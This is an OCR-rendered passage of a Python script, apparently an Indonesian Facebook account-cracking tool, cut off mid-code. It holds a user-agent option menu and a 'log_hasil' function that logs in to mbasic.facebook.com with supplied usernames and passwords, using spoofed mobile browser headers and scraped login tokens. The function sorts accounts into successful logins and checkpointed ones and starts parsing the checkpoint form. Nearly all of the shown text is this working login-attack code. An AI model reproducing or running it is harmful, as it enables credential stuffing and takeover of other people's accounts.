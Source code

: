     elif _pil_ in ["2","02"]:
        try:
            _tes_ua=open("ua","r").read()
        except IOError:
            _tes_ua=("Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]")
        print(f"{B} | ")
        print(f"{P}[•] User agent : {B}{_tes_ua}");menu()
    elif _pil_ in ["0","00"]:
        menu()
    else:print(f"{P}[•] Pilihan salah ");exit()

#####LOGIN HASIL
def log_hasil(user, pasw):
    ua = "Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]"
    ses = requests.Session()
    ses.headers.update({
    "Host": "mbasic.facebook.com",
    "cache-control": "max-age=0",
    "upgrade-insecure-requests": "1",
    "origin": host,
    "content-type": "application/x-www-form-urlencoded",
    "user-agent": ua,
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "x-requested-with": "mark.via.gp",
    "sec-fetch-site": "same-origin",
    "sec-fetch-mode": "navigate",
    "sec-fetch-user": "?1",
    "sec-fetch-dest": "document",
    "referer": host+"/login/?next&ref=dbl&fl&refid=8",
    "accept-encoding": "gzip, deflate",
    "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"
    })
    data = {}
    ged = par(ses.get(host+"/login/?next&ref=dbl&fl&refid=8", headers={"user-agent":ua}).text, "html.parser")
    fm = ged.find("form",{"method":"post"})
    list = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login","bi_xrwh"]
    for i in fm.find_all("input"):
        if i.get("name") in list:
            data.update({i.get("name"):i.get("value")})
        else:
            continue
    data.update({"email":user,"pass":pasw})
    try:
        run = par(ses.post(host+fm.get("action"), data=data, allow_redirects=True).text, "html.parser")
    except requests.exceptions.TooManyRedirects:
        print(f"{B} | ")
        print(f"{M}[•] Akun terkena spam")
    if "c_user" in ses.cookies:
        print(f"{P}[•]{I} Akun berhasil di login")
    elif "checkpoint" in ses.cookies:
        form = run.find("form")
        dtsg = form.find("input",{"name":"fb_dtsg"})["value"]
        jzst = form.find("input",{"name":"jazoest"})["value"]
        nh   = form.find("input",{"name":"nh"})["value"]
        dataD = {
            "fb_dtsg": dtsg,
            "fb_dtsg": dtsg,
            "jazoest": jzst,